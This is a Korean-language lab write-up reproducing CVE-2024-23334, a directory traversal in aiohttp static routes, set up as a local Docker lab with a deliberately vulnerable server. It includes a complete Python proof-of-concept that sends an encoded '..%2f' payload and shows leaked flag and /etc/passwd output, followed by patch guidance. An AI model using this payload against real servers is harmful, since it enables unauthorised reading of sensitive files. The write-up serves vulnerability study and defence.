

# CVE-2024-23334 | aiohttp static route directory traversal

**Contributors**

- [@heechan](https://github.com/heechan)

<br/>

## 취약점 요약

- `aiohttp`는 Python `asyncio` 기반 HTTP 클라이언트/서버 프레임워크이다.
- `aiohttp.web.Application`에서 정적 파일 라우트를 만들 때 `follow_symlinks=True`를 설정하면, 취약 버전에서는 요청된 파일이 static root 내부에 있는지 충분히 검증하지 못한다.
- 공격자는 URL 인코딩된 `../` 경로를 이용해 static root 밖의 파일을 읽을 수 있다.
- 영향 버전: `aiohttp < 3.9.2`
- 실습 버전: `aiohttp==3.9.1`
- CVSS v3.1: `7.5 HIGH` (`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`)
- CWE: `CWE-22 Improper Limitation of a Pathname to a Restricted Directory`

참고 자료:

- NVD: <https://nvd.nist.gov/vuln/detail/CVE-2024-23334>
- GitHub Advisory: <https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f>
- Patch commit: <https://github.com/aio-libs/aiohttp/commit/1c335944d6a8b1298baf179b7c0b3069f10c514b>

<br/>

## 환경 구성

이 디렉터리는 취약한 aiohttp 서버를 Docker로 직접 빌드한다. 이미 만들어진 외부 취약 이미지에 의존하지 않고, `python:3.11-slim` 기반 이미지에서 고정된 Python 패키지 버전을 설치한다.

파일 구성:

```text
CVE-2024-23334/
|-- Dockerfile
|-- docker-compose.yml
|-- requirements.txt
|-- poc.py
`-- app/
    |-- server.py
    |-- static/index.txt
    `-- secrets/flag.txt
```

실행 명령:

```sh
docker compose up --build -d
```

서비스 확인:

```sh
curl http://127.0.0.1:8080/
curl http://127.0.0.1:8080/static/index.txt
```

정상 실행 시 `/`는 실습 안내 문구를, `/static/index.txt`는 static root 내부의 정상 파일을 반환한다.

<br/>

## 취약 조건

아래 조건이 모두 맞을 때 재현된다.

- 서버가 `aiohttp` 3.9.1처럼 `3.9.2` 미만 버전을 사용한다.
- `app.router.add_static()` 호출에서 `follow_symlinks=True`가 설정되어 있다.
- 공격자가 `/static/` 경로로 HTTP 요청을 보낼 수 있다.
- aiohttp 프로세스 권한으로 읽을 수 있는 파일이 static root 밖에 존재한다.

취약한 코드:

```python
app = web.Application()
app.router.add_get("/", index)
app.router.add_static("/static/", path=STATIC_DIR, follow_symlinks=True)
```

`app/static/`은 공개 디렉터리이고, `app/secrets/flag.txt`는 공개 디렉터리 밖에 있는 파일이다. 정상적인 정적 파일 제공이라면 `flag.txt`는 외부에서 읽히면 안 된다.

<br/>

## 재현 절차

1. 취약 환경을 실행한다.

```sh
docker compose up --build -d
```

2. 정상 static 파일 접근을 확인한다.

```sh
curl http://127.0.0.1:8080/static/index.txt
```

예상 결과:

```text
This file is inside the allowed static directory.
```

3. PoC로 static root 밖의 flag 파일을 읽는다.

```sh
python3 poc.py http://127.0.0.1:8080
```

예상 결과:

```text
[+] Target: http://127.0.0.1:8080
[+] File path from static/: ../secrets/flag.txt
[+] Payload: /static/..%2fsecrets%2Fflag.txt
[+] HTTP 200
FLAG{CVE-2024-23334-AIOHTTP-DIRECTORY-TRAVERSAL}
```

4. 컨테이너의 `/etc/passwd` 읽기를 추가로 확인한다.

```sh
python3 poc.py http://127.0.0.1:8080 ../etc/passwd
```

컨테이너 내부 경로 기준으로 `/app/static/../../etc/passwd`가 `/etc/passwd`로 해석되어 파일 내용 일부가 반환된다.

5. 실습을 마친 뒤 정리한다.

```sh
docker compose down -v
```

<br/>

## PoC 코드

`poc.py`는 Python 표준 라이브러리만 사용한다. 별도의 `pip install` 없이 실행할 수 있다.

```python
#!/usr/bin/env python3
import sys
from urllib.error import HTTPError
from urllib.parse import quote
from urllib.request import Request, urlopen


def fetch(url):
    request = Request(url, headers={"User-Agent": "cve-2024-23334-lab"})
    try:
        with urlopen(request, timeout=10) as response:
            return response.status, response.read().decode("utf-8", errors="replace")
    except HTTPError as error:
        return error.code, error.read().decode("utf-8", errors="replace")


def build_payload(target_path):
    encoded = quote(target_path, safe=".")
    return f"/static/..%2f{encoded}"


def main():
    base_url = sys.argv[1].rstrip("/") if len(sys.argv) > 1 else "http://127.0.0.1:8080"
    target_path = sys.argv[2] if len(sys.argv) > 2 else "secrets/flag.txt"
    payload = build_payload(target_path)
    url = base_url + payload

    print(f"[+] Target: {base_url}")
    print(f"[+] File path from static/: ../{target_path}")
    print(f"[+] Payload: {payload}")
    status, body = fetch(url)
    print(f"[+] HTTP {status}")
    print(body)


if __name__ == "__main__":
    main()
```

<br/>

## 실행 결과

PoC 실행 결과, 공개 디렉터리인 `/app/static/` 밖에 있는 `/app/secrets/flag.txt`가 HTTP 200으로 반환된다.



결과 해석:

- `/static/index.txt`: 정상적으로 공개된 파일
- `/static/..%2fsecrets%2Fflag.txt`: static root를 벗어나 비공개 파일을 읽는 요청
- 반환된 `FLAG{...}` 값은 디렉터리 트래버설 성공을 의미한다.

<br/>

## 대응 방안

- `aiohttp`를 `3.9.2` 이상으로 업그레이드한다.
- 정적 파일 라우트에서 `follow_symlinks=True`를 사용하지 않는다.
- 애플리케이션 서버가 직접 정적 파일을 제공해야 한다면, static root 밖의 파일 접근을 별도 테스트로 검증한다.
- Nginx, Apache 같은 검증된 reverse proxy 또는 object storage를 사용해 정적 파일 제공 범위를 분리한다.
- 컨테이너와 프로세스 권한을 최소화하여, 웹 프로세스가 민감 파일을 읽지 못하도록 한다.

패치 예시:

```python
app.router.add_static("/static/", path=STATIC_DIR, follow_symlinks=False)
```

또는 취약 버전을 제거한다.

```sh
pip install "aiohttp>=3.9.2"
```

<br/>

## 평가

- Reproducibility: 90%
  - `docker compose up --build -d` 하나로 환경이 구성된다.
  - PoC는 Python 표준 라이브러리만 사용해 의존성이 낮다.
  - 취약 파일과 정상 static 파일을 모두 레포 내부에 포함했다.
- Risk Score: 7.5
  - NVD CVSS v3.1 기준 `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`.
  - 인증 없이 원격에서 민감 파일을 읽을 수 있으나, 무결성/가용성 영향은 없다.
